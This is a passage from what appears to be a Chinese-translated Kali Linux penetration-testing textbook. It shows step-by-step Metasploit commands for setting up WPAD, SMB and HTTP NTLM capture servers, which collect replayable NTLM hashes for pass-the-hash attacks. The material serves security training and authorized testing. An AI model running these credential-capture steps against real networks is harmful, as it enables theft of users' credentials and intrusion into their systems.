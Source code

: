 更改后的文件如下截图所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/a19bb35a-eb23-40d2-aa81-782815ab0ebb.png)

接下来，我们需要启动 Metasploit 并启动捕获服务器。要启动 Metasploit，请运行以下命令：

```
msfdb start # This will start the database.
msfconsole # This will start the console.  
```

让我们启动服务器。启动顺序在这里并不重要，但是这些服务器是您进行此攻击所需的三个重要组成部分。在切换到您的工作区后，运行以下命令：

```
use auxiliary/server/wpad # This set up the wpad module for use.
show options # This will show the options.  
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/131e8c77-7a26-4bb8-ac7b-f34138f0cb80.png)

我发现最好设置`SRVHOST`设置。将其保持为`0.0.0.0`将使服务器在列出的端口上监听所有接口。硬设置`SRVHOST`将减少任何网络/接口混乱。特别是如果您运行多个活动接口，攻击可能会困惑于应该选择哪种方式，或者诸如`wpad`之类的服务将主动监听错误的接口。最好进行硬设置以确保。对于此攻击，本地 IP 地址为`172.16.42.139`：

```
set SRVHOST 172.16.42.139
```

要启动它，请运行以下命令：

```
    run -j # The -j flag will run the job in the background.

```

接下来，让我们使用以下命令启动 SMB 捕获服务器：

```
use auxiliary/server/capture/smb
show options  
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/241649d8-ec9c-4c71-b42e-f531bbccf93c.png)

再次设置`SRVHOST`。您可以使用向上箭头键返回到上次设置的属性：

```
set SRVHOST 172.16.42.139
run -j # Again this will run the job in the background
```

有两种方法可以捕获 HTTP 流量。一种是`auxiliary/server/capture/http_ntlm`模块。此模块将以其 NTLM 哈希值捕获凭据。这些哈希值将是可重放的，因为我们的攻击服务器发送了挑战。之前定义了挑战盐值-我们看到它设置为`1122334455667788`。此攻击中捕获的哈希值可以在* Pass the Hash * -style 攻击中使用。要设置和运行此模块，请运行以下命令：

```
use auxiliary/server/capture/http_ntlm
show options  
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/ffe2c9ce-d224-4fb3-b7eb-c71b814914c4.png)
